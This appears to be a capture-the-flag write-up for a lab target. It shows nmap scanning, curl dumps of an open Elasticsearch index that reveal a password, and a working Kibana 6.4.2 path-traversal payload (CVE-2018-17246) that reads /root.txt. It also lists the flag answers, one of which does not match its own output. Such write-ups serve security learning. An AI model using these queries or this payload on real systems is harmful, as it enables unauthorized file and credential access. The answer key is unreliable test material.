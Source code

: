 ## ## Task 28 - [Day 24] Elf Stalk
1. Find the password in the database<br>
    Use `nmap` to enumerate which ports is running on the machine.<br>
    ```
    $ nmap 10.10.218.146                   
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-12 05:55 EDT
    Nmap scan report for 10.10.218.146
    Host is up (0.35s latency).
    Not shown: 996 closed tcp ports (conn-refused)
    PORT     STATE SERVICE
    22/tcp   open  ssh
    111/tcp  open  rpcbind
    5601/tcp open  esmagent
    8000/tcp open  http-alt
    9200/tcp open  wap-wsp

    Nmap done: 1 IP address (1 host up) scanned in 35.41 seconds
    ```
    I noticed to port 9200 which is the default port of Elasticsearch, so I use the following command to get all index of the database `curl -X GET "10.10.218.146:9200/_aliases?pretty=true"`
    ```
    $ curl -X GET "10.10.218.146:9200/_aliases?pretty=true"
    {
    ".kibana" : {
        "aliases" : { }
    },
    "messages" : {
        "aliases" : { }
    }
    }
    ```
    There are two indexs, i will choose the `message` index to get the first 1000 records and filter with `password` with command.<br>
    ```
    $ curl -X GET "http://10.10.218.146:9200/messages/_search/?size=1000&pretty" | grep -i password
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    4 55290    4  2463    0     0   3487      0  0:00:15 --:--:--  0:00:15  3483          "message" : "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
    ```
    **Answer:** 9Qs58Ol3AXkMWLxiEyUyyf4

1. Read the contents of the /root.txt file<br>
    Port 5601 is use for Kibana UI, I found the version is 6.4.2 which is vulnerable to Local File Inclusion (CVE-2018-17246). Send the request [http://10.10.218.146:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../root.txt](http://10.10.218.146:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../root.txt) then access the log file in port 8000, you will see the content of root.txt. <br>
    ![](images/85.png)<br>
    **Answer:** someELKfun
